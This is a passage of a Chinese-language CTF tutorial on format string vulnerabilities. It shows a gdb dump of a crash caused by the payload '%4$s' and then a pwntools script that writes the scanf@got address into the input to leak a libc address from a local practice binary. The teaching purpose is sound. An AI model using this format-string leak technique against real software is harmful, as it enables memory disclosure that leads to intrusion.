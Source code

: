 可以看出，我们的程序崩溃了，为什么呢？这是因为我们试图将该格式化字符串所对应的值作为地址进行解析，但是显然该值没有办法作为一个合法的地址被解析，所以程序就崩溃了。具体的可以参考下面的调试。

```gdb
[----------------------------------registers-----------------------------------]
EAX: 0xffffd270 ("%4$s")
EBX: 0x0
ECX: 0x7fffffe0
EDX: 0xf7fb7870 --> 0x0
ESI: 0xf7fb6000 --> 0x1b2db0
EDI: 0xf7fb6000 --> 0x1b2db0
EBP: 0xffffd2e8 --> 0x0
ESP: 0xffffd25c --> 0x80484ce (<main+99>:       add    esp,0x10)
EIP: 0xf7e4c680 (<printf>:      call   0xf7f22c59)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e4c67b <fprintf+27>:     ret
   0xf7e4c67c:  xchg   ax,ax
   0xf7e4c67e:  xchg   ax,ax
=> 0xf7e4c680 <printf>: call   0xf7f22c59
   0xf7e4c685 <printf+5>:       add    eax,0x16997b
   0xf7e4c68a <printf+10>:      sub    esp,0xc
   0xf7e4c68d <printf+13>:      mov    eax,DWORD PTR [eax-0x68]
   0xf7e4c693 <printf+19>:      lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffd25c --> 0x80484ce (<main+99>:      add    esp,0x10)
0004| 0xffffd260 --> 0xffffd270 ("%4$s")
0008| 0xffffd264 --> 0xffffd270 ("%4$s")
0012| 0xffffd268 --> 0xf7fe2a70 (add    edi,0x1a590)
0016| 0xffffd26c --> 0xf7ffdc08 --> 0xf7fd7000 (jg     0xf7fd7047)
0020| 0xffffd270 ("%4$s")
0024| 0xffffd274 --> 0xffffd300 --> 0x1
0028| 0xffffd278 --> 0xe0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 1, 0xf7e4c680 in printf () from /lib/i386-linux-gnu/libc.so.6
```

显然 0xffffd270 处所对应的格式化字符串所对应的变量值 0x73243425 并不能够被改程序访问，所以程序就自然崩溃了。

那么如果我们设置一个可访问的地址呢？比如说 scanf@got，结果会怎么样呢？应该自然是输出 scanf 对应的地址了。我们不妨来试一下。

首先，使用 IDA 获取 scanf@got 的地址，如下  
![](/CTF/v_images/20200901105309307_246661860.png)

下面我们利用 pwntools 构造 payload 如下

```python
from pwn import *
p = process('./leakmemory')
elf = ELF('./leakmemory')
scanf_gor_addr = elf.got['__isoc99_scanf']
print(hex(scanf_gor_addr))
payload = p32(scanf_gor_addr) + "%4$s"
p.sendline(payload)
p.recvuntil("%4$s\n")
print(hex(u32(p.recv()[4:8])))
```

